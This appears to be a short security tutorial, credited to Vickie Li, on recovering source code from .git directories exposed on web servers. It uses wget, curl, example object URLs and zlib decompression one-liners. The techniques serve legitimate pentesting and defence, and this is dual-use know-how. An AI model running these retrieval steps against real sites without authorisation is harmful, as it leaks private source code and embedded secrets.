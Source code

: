 **Exploiting Directory Listing and Retrieving Leaked Information**

- If directory listing is enabled, you can browse through the files and retrieve leaked information.

**Using wget for Mass-Download with Directory Listing**
- The `wget` command retrieves content from web servers. You can use `wget` in recursive mode (-r) to mass-download all files stored within the specified directory and its subdirectories:

```bash
$ wget -r example.com/.git
```

**Reconstructing .git Directory Without Directory Listing**
- If directory listing isn't enabled, and the directory's files are not shown, you can still reconstruct the entire `.git` directory. First, confirm that the folder's contents are available to the public by trying to access the directory's config file:

```bash
$ curl https://example.com/.git/config
```

- If the config file is accessible, you might be able to download the `.git` directory's entire contents.

**Structure of .git Directory**
- A `.git` directory is laid out in a specific way, with important files and folders. For example:

```bash
$ ls .git
COMMIT_EDITMSG HEAD branches config description hooks index info logs objects refs
```

- The `/objects` directory is used to store Git objects, and within it, you'll find subdirectories and files named after the SHA1 hash of the Git objects stored in them.

**Determining Object Type**
- You can determine an object's type using the following command:

```bash
$ git cat-file -t OBJECT-HASH
```

- Different types of objects are stored in `.git/objects`, including commits, trees, blobs, and annotated tags.

**Displaying Git Object Content**
- You can display the content of a Git object using:

```bash
$ git cat-file -p OBJECT-HASH
```

**Accessing Git Configuration and HEAD**
- The `/config` file is the Git configuration file for the project, and the `/HEAD` file contains a reference to the current branch.

```bash
$ cat .git/HEAD
ref: refs/heads/master
```

**Finding Files Without Directory Listing**
- If you can't access the `.git` folder's directory listing, you have to download each file you want individually. Start with filepaths you already know exist, like `.git/HEAD`, and follow the references to discover more files.

**Remote Server Examples**
- On a remote server, use URLs to access the Git information:

- To determine the HEAD:
  ```
  https://example.com/.git/HEAD
  ```

- To find the object stored in that HEAD:
  ```
  https://example.com/.git/refs/heads/master
  ```

- To access the tree associated with the commit:
  ```
  https://example.com/.git/objects/0a/72e6850ef963c6aeee4121d38cf9de773865d8
  ```

- To download the source code stored in a specific file:
  ```
  https://example.com/.git/objects/4b/66088945aab8b967da07ddd8d3cf8c47a3f53c
  ```

**Decompressing Object Files**
- When downloading files from a remote server, you may need to decompress the downloaded object files before reading them using Ruby, Python, or your preferred language's zlib library.

- Ruby:
  ```bash
  ruby -rzlib -e 'print Zlib::Inflate.new.inflate(STDIN.read)' < OBJECT_FILE
  ```

- Python:
  ```bash
  python -c 'import zlib, sys; print repr(zlib.decompress(sys.stdin.read()))' < OBJECT_FILE
  ```

- Credits to Vickie Li.
